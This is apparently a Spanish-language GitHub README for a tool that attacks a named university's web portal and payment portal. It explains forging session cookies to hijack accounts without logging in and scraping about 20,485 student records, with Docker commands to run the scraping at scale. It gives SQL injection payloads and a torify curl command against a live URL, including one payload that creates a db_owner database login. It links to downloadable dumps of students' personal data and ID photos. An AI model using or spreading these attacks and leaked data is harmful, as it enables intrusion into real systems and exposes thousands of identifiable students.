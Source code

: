
<div align="end">
<img
 style="object-fit: cover;"
 src="./assets/icons8-hack-60.png" >
</div>

# Script scraping vunerability from uped portal

> [!CAUTION]
> Este script fue creado con fines educativos,en ningun momento se pretende hacer daño a la universidad o a su portal web al contrario se pretende ayudar a mejorar la seguridad de la misma

## 🗒️ Descripcion

Script que permite obtener la información de estudiantes y la sesion de un usuario en el portal de la universidad. Ademas de poder inyectar codigo SQL en una cookie en la base de datos de la universidad.

## 🍪 En que consiste la vulnerabilidad

La vunerabilidad consiste en manipular la cookie de una session para obtener la informacion de un usuario sin necesidad de logearse en el portal de la universidad.

la estructura de cookie es la siguiente:

```json
{
  ".ASPXAUTH": "puede ser cualquier sesion",
  "ASP.NET_SessionId": "id de la session del autenticacion",
  "CodigoUsuario": "codigo del usuario",
  "usuario": "nombre del usuario",
}
```

## 📋 Requisitos

- Node.js v20.0.0

## 🚀 Instalación

```bash
git clone https://github.com/epmyas2022/uped-vunerabilidad.git
```

```bash
npm install
```

Configurar las variables de entorno en el archivo `.env`

```env
ASPXAUTH=#de cualquier sesion
SESSION_ID=#id de la session del autenticacion
ARGS=#argumentos para el navegador
```

## 💻 Comandos

Obtener la informacion del expediente de los estudiantes basados en un rango  x1 a x2

```bash
npm run general <x1> <x2> [optional | Boolean] <headless>
```

Obtener la sesion de un usuario

```bash
npm run login <user> <codigo>
```

Obtener la sesion del portal de pagos de un estudiante

```bash
npm run pagos <user> <codigo>
```

## 🐳 Con docker

Esto es util para ejecutar el script en un contenedor docker, podriamos ejecutar x cantidad de contenedores para obtener la informacion de los estudiantes.

Construir la imagen (builder)

```bash
docker build -f .docker/Dockerfile --target builder -t uped-vunerabilidad .
```

Construir el contenedor

```bash
docker run -it -d -e ASPXAUTH=token -e SESSION_ID=id -e FROM=desde -e TO=hasta --privileged --security-opt seccomp=.docker/chrome.json uped-vunerabilidad
```

## 🪪 Levantar  servicio de Adminer

```bash
docker-compose up -d
```

Para acceder al gestor de base de datos: [http://localhost:8080](http://localhost:8080)

## 📂 Estructura de archivos

Dentro de la carpeta data se encuentra varios datos con que se comprobo la vulnerabilidad del portal de la universidad. estos datos obtenidos fueron mediante el script aprovechando la vulnerabilidad.
en total existen aproximadamente **20,485** registros de estudiantes.

## 💉 Vunerabilidad de inyeccion de SQL

Se descubrio otra vunerabilidad que permite inyectar codigo SQL en una cookie y mediante esto se logro obtener acceso a la base de datos de la universidad. La url a la que se le inyecto el codigo SQL fue la siguiente:

```url
https://myappcloud.net/uped/portal_catedratico/externa.aspx
```

Ejemplo de inyeccion SQL

Con esto se valida si es vulnerable a inyeccion SQL si es vunerable se demorara 20 segundos en responder.

```sql
' BEGIN WAITFOR DELAY '0:0:20'--
```

Con la siguiente inyeccion se logro encontrar cual es el nombre de la base de datos de la universidad.

```sql
' IF EXIST (SELECT 1 FROM sys.databases WHERE name LIKE '%uonline_uped%') BEGIN WAITFOR DELAY '0:0:20' END--
```

Con la siguiete inyeccion se logro crear un usuario en la base de datos de la universidad para su posterior uso.

```sql
'IF  (SELECT COUNT(*) FROM sys.databases WHERE name LIKE 'uonline_uped') > 0 BEGIN USE uonline_uped CREATE LOGIN mssql_user WITH password = 'your_password' CREATE USER mssql_user FOR LOGIN mssql_user ALTER ROLE db_owner ADD MEMBER mssql_user WAITFOR DELAY '0:0:20' END--
```

Ejemplo de `curl` para inyectar codigo SQL

```bash
torify curl -X GET "https://myappcloud.net/uped/portal_catedratico/externa.aspx" \
  --cookie ".ASPXAUTH=<auth_de_cualquier_sesion>" \
  --cookie "ASP.NET_SessionId=<id_de_cualquier_sesion>" \
  --cookie "CodigoUsuario=1789" \
  --cookie "Usuario=<injection_sql>" 
```

## 💻 Descargar datos

- Tabla de *ra_per_personas* (informacion de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZvRx55ZgUc7an7IIyfF27CLa93Wo7KCf6Yy)

- Tabla de *ra_per_foto_carne* (foto de carne de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZ9sx55ZEXFqi3MoUjzyXUdw1isK1jm1Wu0y)

## 🔗 Sitios vulnerables

- [x] Portal de la universidad [aqui](https://myappcloud.net/uped/login.aspx)
- [x] Portal de pagos [aqui](https://saas.spsoftware.net/uped_pagos/)
- [x] Base de datos uonline_uped [aqui](https://myappcloud.net/uped/portal_catedratico/externa.aspx)
